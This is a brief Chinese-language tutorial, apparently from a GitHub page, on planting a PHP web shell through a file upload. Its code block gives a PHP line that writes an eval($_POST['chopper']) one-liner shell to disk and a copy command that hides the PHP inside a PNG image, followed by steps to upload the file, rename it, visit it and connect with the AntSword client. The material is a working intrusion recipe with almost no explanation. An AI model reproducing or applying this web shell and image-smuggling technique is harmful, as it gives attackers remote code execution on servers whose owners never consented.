







1.  代码编写
    1.png

```
# php 文件内容 
<?php fwrite(fopen("ningix.php","w"),"<?php eval(\$_POST['chopper']);?>") ?>
cmd $copy tupian.png/d+1.php chopper.png
```

2.文件上传

3\. 修改文件名

4\. 访问文件






6\. 蚁剑直接连



